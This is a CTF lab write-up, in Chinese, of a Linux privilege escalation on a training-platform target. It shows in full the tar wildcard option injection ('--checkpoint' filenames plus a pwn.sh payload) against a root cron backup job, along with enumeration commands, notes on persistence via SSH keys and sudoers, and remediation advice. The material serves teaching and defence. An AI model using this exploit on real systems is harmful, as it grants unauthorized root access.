# 2-3 内网渗透与高级社工 · 权限提升维持（root cron + tar 通配符选项注入）

## 题目信息

| 项目 | 内容 |
| --- | --- |
| 题目名称 | 内网渗透与高级社工-权限提升维持-G3（平台章节 7257，实战 Flag 题 11225） |
| 分类 | 内网渗透 / Linux 本地提权（root 计划任务 + tar 通配符选项注入） |
| 题目描述 | 你是某公司安全应急响应小组成员，一台内网服务器上报了异常但暂无更多线索，团队只给你开通了一个受限账号用于排查。访问题目端口即可获得该账号（`player`）的 Web 终端。请设法取得 root 权限，读取 `/flag`，确认这台机器的实际影响范围。 |

## 环境信息

| 项目 | 内容 |
| --- | --- |
| 平台 | VMCourse 实训平台，课程 1639，章节 7257《内网渗透与高级社工-权限提升维持-G3》 |
| 靶机 Web 终端 | ttyd：`http://172.17.0.13:12424/`，打开即为 `player` 已登录 shell |
| SSH | `172.17.0.13:12379`（`player` 账号，密码未知，本次全程未使用） |
| 实例 | 环境 C080-G3-F（envID 1399 / podID `sditjbzn8bzlk4pk0v31vnd1h`，镜像 c080-g3-f） |
| 容器主机 | `e49569741040`；Debian GNU/Linux 12 (bookworm)；kernel 5.10.220 |
| 操作方式 | 用本地脚本 `.local/process/ttyd_drive.py` 通过 WebSocket 驱动 ttyd 下发命令：`python3 .local/process/ttyd_drive.py 172.17.0.13:12424 "<命令>"`；截图用 headless Chrome（playwright-core） |
| 备注 | 本章节 5 题已在平台提交并全部判对（4 道选择题 11101 / 11103 / 11105 / 11107 与 flag 题 11225 全部「作答正确」，判分复核见步骤 11）；选择题作答过程与解析不在本文范围，本文聚焦提权实战链 |

## 解题过程

### 1. 目标与环境：进入 Web 终端，确认题目要求（截图 01）

打开靶机 Web 终端即已以 `player` 落在容器中，无需登录。先确认当前身份与立足点：

```
$ id; whoami; hostname; uname -r; pwd
uid=1000(player) gid=1000(player) groups=1000(player)
player
e49569741040
5.10.220
/
```

当前为低权限 `player`（uid=1000，仅普通用户组），工作目录 `/`。题目要求取得 root 权限读取 `/flag`，因此关键是找到一条可用的本地提权路径。



### 2. 失败尝试一：sudo 路线需要密码（截图 02）

按「先枚举后利用」的顺序，第一步检查 sudo 授权：

```
$ sudo -n -l
sudo: unable to resolve host e49569741040: Temporary failure in name resolution
sudo: a password is required
```

- 失败原因：`player` 没有免密 sudo 条目，且账号密码未知（`-n` 非交互模式直接报 `a password is required`；开头的主机名解析告警为容器内无害提示）；
- 如何调整：放弃 sudo 路线，转向 SUID / capabilities 与计划任务枚举。

（截图 02 记录命令下发；回显提示需要密码）



### 3. 提权枚举：SUID 与 capabilities 均无异常（截图 03）

```
$ find / -perm -4000 -type f 2>/dev/null
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/su
/usr/bin/umount
/usr/bin/sudo
/usr/lib/openssh/ssh-keysign
$ getcap -r / 2>/dev/null        # 无输出
```

- `find -perm -4000` 的结果全部是发行版自带的 SUID 程序，没有 G2 中 `svcstat` 那样的非标准异常项；
- `getcap -r /` 无任何输出，capabilities 方向也没有可用面；
- 与 G1（sudo 配置缺陷）、G2（SUID + PATH 劫持）不同，本题必须换新向量——计划任务。



### 4. 计划任务枚举：发现 root 的 backup 任务（截图 04）

接着检查系统级计划任务：

```
$ cat /etc/crontab
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.daily; }
...
$ ls -la /etc/cron.d/
-rw-r--r-- 1 root root 102 Mar  2  2023 .placeholder
-rw-r--r-- 1 root root  90 Aug 15 10:03 backup
-rw-r--r-- 1 root root 201 Jun  6  2025 e2scrub_all
$ cat /etc/cron.d/backup
* * * * * root cd /var/backups/incoming && tar czf /var/backups/data.tar.gz * 2>/dev/null
```

要点：

- `/etc/crontab`、`/etc/cron.d/` 的任务行都带用户字段（如 `root`），任务以该字段指定的身份运行；
- `/etc/cron.d/backup` 是一条**每分钟**以 `root` 身份执行的任务：先 `cd` 进 `/var/backups/incoming`，再用裸通配符 `*` 打包备份；
- 现场验证：`/var/backups/data.tar.gz` 的 mtime 每分钟更新，说明任务确实在周期执行；
- 「root 身份 + 用户可写目录 + `tar ... *`」是典型的 tar 通配符选项注入（wildcard injection）场景，列为利用目标。



### 5. 确认利用条件：备份目录可写、`/flag` 仅 root 可读（截图 05、06）

```
$ ls -ld /var/backups/incoming; ls -la /var/backups/incoming/
drwxr-xr-x 1 player player 6 Sep 20 01:14 /var/backups/incoming
total 0
$ touch /var/backups/incoming/.w && echo DIRECTORY-WRITABLE
DIRECTORY-WRITABLE
$ cat /flag; echo RC=$?; ls -la /flag
cat: /flag: Permission denied
RC=1
-rw------- 1 root root 38 Sep 20 01:11 /flag
```

- 备份目录 `/var/backups/incoming` 属主是 `player`，实测可写入——被 root 的 cron 任务使用、却由低权限用户控制，这是整条利用链的第一环；
- `/flag` 权限 `-rw-------`、属主 root，`player` 直读被拒（`RC=1`），也验证了「必须提权才能读」。





### 6. 失败尝试二：直接写 /etc/cron.d/pwn 被拒（截图 07）

最直接的想法是新增一条 root 计划任务，但 `/etc/cron.d/` 目录属主为 root、普通用户不可写：

```
$ echo "* * * * * root cat /flag > /tmp/f2" > /etc/cron.d/pwn
bash: /etc/cron.d/pwn: Permission denied
RC=1
```

- 失败原因：没有 `/etc/cron.d/` 的写权限，无法直接下发新任务；
- 如何调整：回到第 4 步发现的 tar 任务——不需要写 cron 配置，只需在**可写的备份目录**里放置特殊文件名，借助 shell 对 `*` 的展开把「文件名」送进 tar 的参数列表。



### 7. 失败尝试三：第一次 tar 注入缺 `--checkpoint=1` 未触发（截图 08）

先在目录里放置 payload，再注入「选项文件名」：

```
$ cd /var/backups/incoming
$ printf 'id > /tmp/root-id.out\ncat /flag > /tmp/flag.out\nchmod 666 /tmp/flag.out /tmp/root-id.out\n' > pwn.sh
$ chmod +x pwn.sh
$ touch './--checkpoint-action=exec=sh pwn.sh'
$ ls -la
-rw-r--r-- 1 player player  0 ... '--checkpoint-action=exec=sh pwn.sh'
-rwxr-xr-x 1 player player 89 ... pwn.sh
$ tar czf /tmp/v0.tar.gz *
RC=0
$ ls -la /tmp/root-id.out
ls: cannot access '/tmp/root-id.out': No such file or directory
```

- 第一次只注入了 `--checkpoint-action=exec=sh pwn.sh`：手工复现 cron 命令（`tar czf /tmp/v0.tar.gz *`）返回 `RC=0`，看似成功，但动作根本没有执行——`/tmp/root-id.out` 不存在；
- 失败原因：GNU tar 只有在**显式开启 checkpoint**（`--checkpoint=1`）后才会在检查点触发动作，缺少 `--checkpoint=1` 时 `--checkpoint-action` 形同虚设；
- 如何调整：再补一个名为 `--checkpoint=1` 的文件，让两个选项同时进入参数列表；
- 工具层面的插曲（如实记录）：无头 Chrome 向 ttyd 键盘输入时偶发吞字符（引号、`>` 等曾导致命令被截断、出现 bash 续行提示符），一度无法确认产物是否生成；随后改为「简单 ASCII 命令、尽量不依赖引号」的方式重新执行，并重拍截图 08 / 09 / 10，交付截图均为真实执行结果。



### 8. 补齐 `--checkpoint=1`：手工验证 + cron 以 root 触发（截图 09）

```
$ cd /var/backups/incoming
$ printf x > ./--checkpoint=1
$ ls -la
-rw-r--r-- 1 player player  0 ... '--checkpoint-action=exec=sh pwn.sh'
-rw-r--r-- 1 player player  1 ... '--checkpoint=1'
-rwxr-xr-x 1 player player 89 ... pwn.sh
$ tar czf /tmp/v1.tar.gz *                # 手工复现：payload 确实被执行
cat: /flag: Permission denied              # 手工执行时是 player 身份
RC=0
$ cat /tmp/root-id.out
uid=1000(player) gid=1000(player) groups=1000(player)
$ date; sleep 75; date
Sun Sep 20 01:27:31 UTC 2026
Sun Sep 20 01:28:52 UTC 2026
$ cat /tmp/root-id.out
uid=0(root) gid=0(root) groups=0(root)
$ cat /tmp/flag.out
vmc{2ZHqMTGBWhaHa2MLjl64HaHzCsRgZQVY}
```

- 补齐两个「选项文件名」后，手工执行 tar 时 payload **已被执行**：`/tmp/root-id.out` 写入 `uid=1000(player)`，同时 `cat /flag` 因当前是 player 身份而报 `Permission denied`——这恰好构成对照实验，证明动作确实触发、但手工运行不具特权；
- 等待一个 cron 周期（约 75 秒）后，由 cron 触发同一命令：`/tmp/root-id.out` 变为 `uid=0(root) gid=0(root) groups=0(root)`，`/tmp/flag.out` 读出 flag；
- 利用链：可写目录中的 `--checkpoint=1` 与 `--checkpoint-action=exec=sh pwn.sh` 被 shell 展开进 tar 参数列表 → tar 把它们当选项解析 → 在检查点以 **root** 身份执行 `sh pwn.sh` → 读取 `/flag` 写入 `/tmp/flag.out`；
- 细节说明：`/tmp/root-id.out`、`/tmp/flag.out` 最初由手工运行时的 player 创建，cron 以 root 覆盖内容后文件属主仍是 player，配合 payload 里的 `chmod 666`，player 可直接读回结果。



### 9. 利用链复查（截图 10）

最后整体复查注入文件、payload、原始任务与 root 证据：

```
$ cd /var/backups/incoming; ls -la
'--checkpoint-action=exec=sh pwn.sh'  '--checkpoint=1'  pwn.sh
$ cat pwn.sh
id > /tmp/root-id.out
cat /flag > /tmp/flag.out
chmod 666 /tmp/flag.out /tmp/root-id.out
$ cat /etc/cron.d/backup
* * * * * root cd /var/backups/incoming && tar czf /var/backups/data.tar.gz * 2>/dev/null
$ cat /tmp/root-id.out
uid=0(root) gid=0(root) groups=0(root)
$ cat /tmp/flag.out
vmc{2ZHqMTGBWhaHa2MLjl64HaHzCsRgZQVY}
```

三个关键文件与任务原文一一对应，root 身份证明与 flag 均来自实测回读。



### 10. 解题过程中的 AI 助教问答（截图 11–16）

围绕 tar 通配符注入、系统级计划任务与权限维持面，向课程教学问答平台（Qwen2.5）提了 6 个问题：

**问题 1：`tar czf backup.tar.gz *` 在可写目录以 root 定时执行，攻击者如何用特殊文件名实现通配符选项注入提权？**（截图 11）——模型确认该技术即 tar wildcard injection：`*` 展开后，恶意特殊文件名进入参数列表，被 tar 当作选项而非普通文件名解析，从而改变行为甚至执行命令；建议避免在用户可写目录用通配符执行 tar，改用白名单或明确文件名。（模型对「创建名为 `*` 的文件」的表述不够严谨，但核心结论一致。）



**问题 2：`--checkpoint-action=exec=sh payload.sh` 为什么通常要配合 `--checkpoint=1` 才会执行？**（截图 12）——`--checkpoint=N` 设置检查点频率（每 N 个记录触发一次），`--checkpoint-action=...` 指定检查点动作；必须先显式开启 checkpoint，动作才会被执行——这正是第 7 步失败、第 8 步成功调整的原因。



**问题 3：`/etc/crontab` 与 `/etc/cron.d/` 任务行的用户字段起什么作用？与 `crontab -e` 有何区别？**（截图 13）——系统级 crontab 行内的用户字段决定任务以哪个身份运行（如 root）；用户级 `crontab -e` 只能以本人身份运行、不能指定他人。系统级配置权限更高、影响面更大，是提权/维持排查的重点。



**问题 4：向 `/root/.ssh/authorized_keys` 写公钥为何是权限维持？如何检测清理？**（截图 14）——利用 SSH 公钥认证，写入后攻击者持私钥即可免密以 root 登录；排查应审查 `authorized_keys` 内容与公钥指纹、关注文件变更时间与登录日志，清理恶意公钥并轮换密钥，必要时收紧 `sshd_config`。



**问题 5：怀疑主机被 tar wildcard injection 提权，应查哪些痕迹？**（截图 15）——备份目录中 `--checkpoint*` 等异常文件名与 root 属主产物；`/etc/crontab`、`/etc/cron.d/` 的任务改动；系统日志中的 tar 执行记录；并结合 SUID/sudoers 异常与 `/tmp` 下凭空出现的 root 属主文件综合排查。



**问题 6：`/etc/sudoers.d/` 的 NOPASSWD 规则与自建 SUID 程序为何是高权限后门？如何加固？**（截图 16）——两者都留下「随时可再提权」的入口；加固建议最小权限授权、定期审计 `sudoers.d` 与 `find -perm -4000`、文件完整性监控和变更告警。



### 11. 提交 Flag 与平台判分（截图 17、18）

将步骤 8 读到的内容作为 flag 提交到平台（flag 题 11225；下列命令仅摘录本题相关部分）：

```
$ curl -sS -k --noproxy '*' -m 40 -b .local/vmc-cookies.txt \
    -X POST "$VMC_BASE/api/student/submitAnswers" \
    -F "sectionID=7257" \
    -F 'answers={"questionID":11225,"answer":"{\"num\":3,\"answer\":[\"\",\"\",\"vmc{2ZHqMTGBWhaHa2MLjl64HaHzCsRgZQVY}\"]}"}' \
    -F "contestMode=0"
# code=0, msg=success
```

填空题被平台规范化为 `{"num":3,"answer":["","true","vmc{...}"]}`。复核 `answerHistory`：5 题（4 道选择题 + flag 题）全部 `isCorrect=true`，答题页显示全部「作答正确」（截图 17 为前三题、截图 18 为多选与 flag 题）。顶层 `scoreRate` 显示 0 与 2-1/2-2 相同，属平台历史显示现象，判分以 `answerHistory.isCorrect` 为准（本步骤对选择题不作展开）。





## Flag

```
vmc{2ZHqMTGBWhaHa2MLjl64HaHzCsRgZQVY}
```

## 总结与心得

### 漏洞原理

1. **root 计划任务在用户可写目录里使用裸通配符（核心）**：`/etc/cron.d/backup` 每分钟以 root 执行 `tar czf /var/backups/data.tar.gz *`，而 `*` 由 shell 在**当前目录**展开。只要攻击者能在该目录创建文件，`*` 的展开结果就混入攻击者可控的「参数」。
2. **tar 把 `--` 开头的文件名当选项解析（通配符选项注入）**：shell 展开后命令行参数与文件名不再有区别，GNU tar 见到以 `-` 开头的参数即按选项处理。放入名为 `--checkpoint=1`、`--checkpoint-action=exec=sh pwn.sh` 的文件后，tar 启用检查点并在检查点以**自身的权限（root）**执行指定命令。文件名内容本身无关紧要，起作用的是「名字被当作选项」。
3. **checkpoint 机制被用作命令执行原语**：`--checkpoint=N` 控制触发频率，`--checkpoint-action=exec=...` 指定动作；二者必须同时出现（第 7 步失败、第 8 步成功两次实验对照验证）。
4. **权限配置缺陷**：备份目录属主为低权限用户、却承载 root 的定时任务，把「可写」与「特权执行」直接连接起来；这既是提权入口，也是典型的审计盲区。

### 做题方法

- **按枚举清单收窄面**：`sudo -l`（失败）→ `find -perm -4000` / `getcap -r /`（无异常）→ 计划任务（命中），逐步排除干扰项；
- **识别「root + 可写目录 + 通配符」组合**：看到 `tar ... *` 与 player 属主的目录，立即联想到 wildcard injection；
- **先手工复现、再等周期任务**：手工执行 tar 先验证动作是否触发（并顺便观察执行身份），再由 cron 触发；本次利用「手工运行 uid=1000 vs cron 运行 uid=0」的对照，把提权证据钉死；
- **用产物回读核验结果**：不猜结果，坚持读 `/tmp/root-id.out`（`uid=0(root)`）与 `/tmp/flag.out`（flag 内容）并复查注入文件、payload 与任务原文；
- **失败尝试有信息量**：sudo 无密码 → 转 SUID/计划任务；直接写 `/etc/cron.d` 被拒 → 改用目录内文件名注入；缺 `--checkpoint=1` 不触发 → 补齐第二个选项文件；无头浏览器输入不稳 → 改用简单 ASCII 命令重拍截图。

### 修复建议

- **不要在用户可写的目录中执行通配符 tar**：备份脚本改用 `./*` 前缀（展开后的名字不再以 `-` 开头）或显式文件清单；如坚持用通配符，也可在文件名列表前加 `--` 结束选项解析。更稳妥的做法是改用专注备份的工具或先做文件名校验；
- **收紧目录权限**：备份目录应归 root（或专用备份账号）所有、去掉低权限用户写权限（如 `root:root 0750`），并确保其内容不可被普通用户增删；
- **cron 任务最小权限**：备份任务不必以 root 运行时就改用专用低权限账号；必须用 root 时避免 `cd` 进入可写目录后再裸通配符打包；
- **审计与监控**：定期审查 `/etc/crontab`、`/etc/cron.d/`、用户 crontab 的变更；对备份目录中 `--` / `--checkpoint*` 等异常文件名告警；结合系统日志与文件完整性监控（FIM）捕捉 root 属主异常产物；
- **维持面排查（与题名呼应）**：结合 AI 问答 4/6 的结论，一并检查 `/root/.ssh/authorized_keys` 异常公钥、`/etc/sudoers.d/` 的 NOPASSWD 规则与 `find -perm -4000` 的新增 SUID 程序——本题仅要求取得 root 读取 `/flag`，未在靶机落地维持手段。
